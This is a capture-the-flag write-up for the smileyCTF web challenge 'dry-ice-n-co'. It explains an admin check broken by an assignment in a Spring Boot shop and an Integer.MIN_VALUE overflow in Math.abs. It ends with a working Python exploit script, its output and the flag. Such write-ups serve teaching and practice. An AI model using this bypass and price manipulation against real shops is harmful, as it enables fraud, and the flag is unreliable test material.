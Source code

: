 ```yaml
---
title: dry-ice-n-co
---
```


# dry-ice-n-co

## Introduction

smileyCTF

**Category:** Web Exploitation

**Write-up date:** 18/06/2025

**Question:**
Hi. I'm opening up my shop for you to buy my favorite thing in the world. DRY ICE!!!

Use coupon code `SMILEICE` at checkout for 20% off! That's coupon code `SMILEICE` at checkout for 20% off!

**Point:** 138 points

## Source code analysis

First impression, this chall source code is written from java, springboot application for exact. This application is
written follow MVC design pattern so it kinna easy for us to read the source code.

Looking at the code, we can see that the requirement for the flag is in `ShopController.java`

```java
private final List<DryIceProduct> availableProducts = new ArrayList<>(Arrays.asList(
        new DryIceProduct("flag", 1000000, "you should buy one of these (if you can afford it)"),
        new DryIceProduct("Small Block", 16, "5kg block of dry ice, perfect for small coolers"),
        new DryIceProduct("Medium Block", 30, "10kg block of dry ice, ideal for medium-sized coolers"),
        new DryIceProduct("Large Block", 50, "20kg block of dry ice, great for large coolers"),
        new DryIceProduct("Pellet Pack", 20, "5kg of dry ice pellets, perfect for shipping")
));
```

But when the user start, the application give us 100$. So somehow we have to buy a 1000000\$ item with 100\$

```java
public ShoppingCart() {
    this.items = new ArrayList<>();
    this.balance = 100; // Initial balance of $100
    this.couponCode = null;
}
```

Then how can we do this chall, thanks to some logic bug in route `/admin/add-product`, we could add something we want
into the website without admin permission.

```java

@PostMapping("/admin/add-product")
public String addProduct(@RequestParam String name,
                         @RequestParam int price,
                         @RequestParam String description,
                         HttpSession session) {
    User user = (User) session.getAttribute("user");
    if ((user.admin = true) && user != null && name != "flag") {
        availableProducts.add(new DryIceProduct(name, price, description));
    }
    return "redirect:/";
}
```

Look carefully, in the if statement, the `user.admin` is assignment, not comparison, meaning the website are not check
for admin, just checking for other one, therefor making us able to add product.

We can assign some negative number, hopping when buy the balance will go up. But when add negative item into the cart,
they suddenly turn into positive number.

![img.png](assets/image/dry-ice-n-co/img.png)

In the `getTotal` function, to avoid any negative number the application get te total then use `Math.abs(total)` to get
the positive value of the cart.

```java
public int getTotal() {
    int total = items.stream()
            .mapToInt(CartItem::getTotal)
            .sum();
    total = Math.abs(total);

    if (isCouponValid()) {
        total = (int) (total * (100.0 - (double) DISCOUNT_PERCENTAGE) / 100.0);
    }

    return total;
}
```

But `Math.abs()` have a hidden secret that it will take any 2's complement of the num as the positive value meaning that
when we use `Integer.MIN_VALUE`, the abs will be `Integer.MIN_VALUE` as well.

```java
public static int abs(int a) {
    return a < 0 ? -a : a;
}
```

But when we add using the min value, the balance will overflow result in our balance will become `Integer.MIN_VALUE`. So
using the coupon code earlier, we can reduce the total of the cart, effectively add some cash into our balance.

![img.png](assets/image/dry-ice-n-co/bal.png)

Using that balance, we can easily buy our flag.

## Exploit

```python
import random
import re

import requests

URL = "https://web-dry-ice-n-co-gkyz1s6q.smiley.cat"


def main():
    product_name = "Test Product" + str(random.randint(1, 10000))
    session = requests.Session()
    print("[+] Get new JSESSIONID.")
    session.get(URL)
    print("[+] Add new item that have Integer.MIN_VALUE price.")
    session.post(f"{URL}/admin/add-product", {
        "name": product_name,
        "description": "Test Product",
        "price": -2147483648,
    })
    print("[+] Add new item that have Integer.MAX_VALUE price.")
    session.post(f"{URL}/add", {
        "productName": product_name,
        "quantity": 1
    })
    print("[+] Apply coupon to avoid integer overflow.")
    session.post(f"{URL}/apply-coupon", {
        "couponCode": "SMILEICE"
    })
    print("[+] Buying negative item to add balance into account.")
    req = session.post(f"{URL}/purchase", {})
    print("[+] Balance:", re.findall(r"(?<=<h3 class=\"text-center\">\$<span>)\d+", req.text)[0])
    print("[+] Add flag into cart.")
    session.post(f"{URL}/add", {
        "productName": "flag",
        "quantity": 1
    })
    print("[+] Buying flag.")
    req = session.post(f"{URL}/purchase", {})
    print("[+] Flag:", re.findall(r"(?<=<pre>)[^<]+", req.text)[0])

if __name__ == "__main__":
    main()
```

Output

```
[+] Get new JSESSIONID.
[+] Add new item that have Integer.MIN_VALUE price.
[+] Add new item that have Integer.MAX_VALUE price.
[+] Apply coupon to avoid integer overflow.
[+] Buying negative item to add balance into account.
[+] Balance: 1717987018
[+] Add flag into cart.
[+] Buying flag.
[+] Flag: .;,;.{this_is_not_a_political_statement_btw}
```

**FLAG:** .;,;.{this_is_not_a_political_statement_btw}
